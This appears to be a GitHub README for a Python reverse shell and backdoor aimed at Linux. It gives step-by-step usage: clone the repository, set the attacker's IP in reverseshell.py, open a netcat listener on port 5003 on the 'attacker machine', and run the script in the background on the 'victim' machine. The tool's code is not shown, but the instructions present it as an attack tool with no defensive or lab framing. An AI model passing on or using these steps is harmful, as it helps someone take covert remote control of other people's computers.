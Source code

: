 ## ReverseShell | written in python3

- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
## You will found a file called reverseshell.py:

Now you need to change the ip in the script.

After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

